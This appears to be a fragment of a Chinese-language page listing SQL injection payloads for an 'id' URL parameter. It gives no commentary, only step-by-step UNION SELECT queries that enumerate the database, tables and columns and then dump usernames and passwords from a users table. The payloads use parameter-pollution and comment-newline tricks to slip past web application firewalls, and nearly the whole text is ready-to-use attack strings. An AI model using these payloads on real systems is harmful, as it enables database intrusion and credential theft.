   

```
`#数据库名``?id=1/**&id=-1%20union%20select%201,database(),3%23*/`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#表名``?id=1/**&id=-1%20union%20select%201,group_concat(table_name),3 from information_schema.tables where table_schema=0x7365637572697479%23*/`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``?id=1/**&id=-1%20union%20select%201,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273%23*/`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#字段内容``?id=1/**&id=-1%20union%20select%201,group_concat(0x7e,username,password),3 from users%23*/`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

  

```
`#字段数``?id=1%20order%20%23%0a%20by%203%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#数据库``?id=-1%20union%20all%23%0a%20select%201,database%23%0a(),3%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

```
`#表名``?id=-1%20union%20all%23%0a%20select%201,group_concat(%23%0atable_name),3 from information_schema.tables where table_schema=0x7365637572697479%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  